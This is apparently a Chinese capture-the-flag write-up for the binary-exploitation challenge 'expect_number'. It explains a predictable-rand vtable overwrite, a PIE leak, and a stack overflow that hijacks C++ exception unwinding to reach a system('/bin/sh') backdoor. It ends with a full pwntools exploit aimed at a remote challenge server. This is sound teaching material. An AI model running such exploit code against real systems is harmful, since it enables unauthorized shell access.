

# expect_number

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

C++写的，程序的主要功能是猜数字，有个全局的结构体，在猜数字的时候使用：

```c
struct counter {
    void (**vtable)(void);
    int cnt;
    byte guess[288];
};
```

具体看到猜数字的过程，首先会用`rand`决定操作符，再由输入的数字(0/1/2)
来决定被操作数，操作数从`guess + cnt`取出，并计算后存入`guess + cnt + 1`，
原来的地方存入输入的数字的码位。程序检查要求操作数不能小于0或大于0x100。

首先预测每次猜数的运算符，并推测想要保持操作数不变所输入的数字：

```c predict.c
// gcc predict.c -g && ./a.out
#include <stdio.h>
#include <stdlib.h>

char buf[64];

static void printbuf(char ch) {
    static int idx = 0;
    if (!ch) {
        buf[idx] = '\0';
        idx = 60; // avoid mess up
    }
    buf[idx++] = ch;
    if (idx >= 50) {
        puts(buf);
        idx = 0;
    }
}

int main(void) {
    srand(1);
    const char *table = "+-*/";
    for (int i = 0; i < 276; i++)
        printbuf(table[rand() % 4]);
    printbuf(0);
    srand(1);
    for (int i = 0; i < 276; i++)
        printbuf(rand() % 4 <= 1 ? '0' : '1');
    printbuf(0);
    return 0;
}
```

于是我们得到了：


```plaintext result
/*-/-/*+--*/*//*+*++/+/-***///-***-/-+/*---/+-*+/*
-*/++-**+---+/+-*---+/*-*/*+/*/++*++//*/++++/+***/
/***/--*-+++-+*---+/+-/--/-/-//+--*-*//++/+-//*++/
+-+/*-*/-//+++-*-+*++*/+///-/++/-+//*-*/--/-*+//+-
++//-**++*++---++/*/*/+-+*-/**-**+-//++/*+//*++*/*
---**-+++**-++**+-*++++//*
11010110001111110100101011111101110100110001001011
01100011000001001000011011101110010011110000101111
11111001000000100001001001010110001011100100111001
00011011011000010010011011101001001110110010101100
00110110010000000111110001011101100110011011100111
00011000011000110010000111
```

看到程序里有`submit`，可以`system("cat gift")`，我直接试了一下，结果远程没有这个文件...

再次检查程序，在全局`counter`之后288字节处存在另一个结构体的虚表，但是，它才对应
`guess`的276字节处。它决定了程序退出时的行为，并且可以在猜数时轻松修改。
程序启动时，这个虚表被绑定到`0x4c48 <- goodbye`，这个函数没有任何漏洞；
但是如果将其绑定到`0x4c60 <- favorite`，由于程序没有canary，因此可以利用其中的
**栈溢出** ，修改rbp和返回地址，触发异常Unwind。检查`system`的交叉引用，
在0x2547的位置存在`system("/bin/sh")`，并且catch块的对象类型和throw的刚好一致，
因此我们可以设置返回地址为catch块地址+1，就可以跳转到后门。

有了以上思考，我们可以先覆盖虚表到`&favorite`，然后`show`借助虚表泄露pieBase，
并计算我们的返回地址，以及rbp为bss，最后执行`favorite`栈溢出跳转到后门拿shell。

## EXPLOIT

```python
from pwn import *
from rich.progress import track
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './expect_number'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('47.94.231.2', 30773)
    elf = ELF(EXE)

    # use this payload to get gift
    # string = '1101011200212111220010102211110111010112'
    # gift not found on target

    # overflow 1 byte '\x60' on vtable
    string = '1101011000111111010010101111110111010011000100101101' \
             '1000110000010010000110111011100100111100001011111111' \
             '1001000000100001001001010110001011100100111001000110' \
             '1101100001001001101110100100111011001010110000110110' \
             '0100000001111100010111011001100110111001110001101112' \
             '2000220020000111'
    for num in track(string, description='sending 0/1/2 ing...'):
        sh.sendlineafter(b'waiting', b'1')
        sh.sendlineafter(b'choose', num.encode())

    # use show to leak pieBase (vtable of goodbye before, vtable of favorite now)
    sh.sendlineafter(b'waiting', b'2')
    sh.recvuntil(b'\x60')
    pieBase = u64(b'\x60' + sh.recv(5) + b'\0\0') - 0x4c60
    success(GOLD_TEXT(f"Leak pieBase: {pieBase:#x}"))

    sh.sendlineafter(b'waiting', b'4')
    bss = pieBase + 0x5800
    backdoor = pieBase + 0x2516
    # cover rbp with a writable address and retaddr with getnum+52+1
    # triggering throw and unwind to backdoor
    sh.sendafter(b'favorite', b'0' * 0x20 + p64(bss) + p64(backdoor))

    sh.clean()
    sh.interactive()

```



## 参考

[溢出漏洞在异常处理中的攻击利用手法-上](https://xz.aliyun.com/t/12967)
